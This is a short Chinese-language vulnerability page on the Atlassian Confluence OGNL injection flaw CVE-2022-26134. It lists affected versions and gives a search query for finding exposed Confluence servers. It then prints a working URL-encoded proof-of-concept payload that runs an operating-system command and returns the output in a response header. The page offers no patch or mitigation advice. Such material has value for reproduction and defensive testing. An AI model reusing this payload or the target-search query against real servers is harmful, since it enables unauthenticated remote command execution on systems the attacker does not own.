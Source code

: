 # Atlassian Confluence OGNL注入漏洞 CVE-2022-26134

## 漏洞描述

Atlassian Confluence是企业广泛使用的wiki系统。2022年6月2日Atlassian官方发布了一则安全更新，通告了一个严重且已在野利用的代码执行漏洞，攻击者利用这个漏洞即可无需任何条件在Confluence中执行任意命令。

## 漏洞影响

<a-checkbox checked>7.4.17</a-checkbox></br>

<a-checkbox checked>7.13.7</a-checkbox></br>

<a-checkbox checked>7.14.3</a-checkbox></br>

<a-checkbox checked>7.15.2</a-checkbox></br>

<a-checkbox checked>7.16.4</a-checkbox></br>

<a-checkbox checked>7.17.4</a-checkbox></br>

<a-checkbox checked>7.18.1</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="ATLASSIAN-Confluence"</a-checkbox></br>

## 漏洞复现

登录页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1630488806824-a8205673-933b-434b-8050-abcde3ef3e97-20220604093234758.png)

验证POC

```php
/%24%7B%28%23a%3D%40org.apache.commons.io.IOUtils%40toString%28%40java.lang.Runtime%40getRuntime%28%29.exec%28%22id%22%29.getInputStream%28%29%2C%22utf-8%22%29%29.%28%40com.opensymphony.webwork.ServletActionContext%40getResponse%28%29.setHeader%28%22X-Cmd-Response%22%2C%23a%29%29%7D/
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1654306027118-48bf3912-970a-403a-900a-dcfdd95b0cb9.png)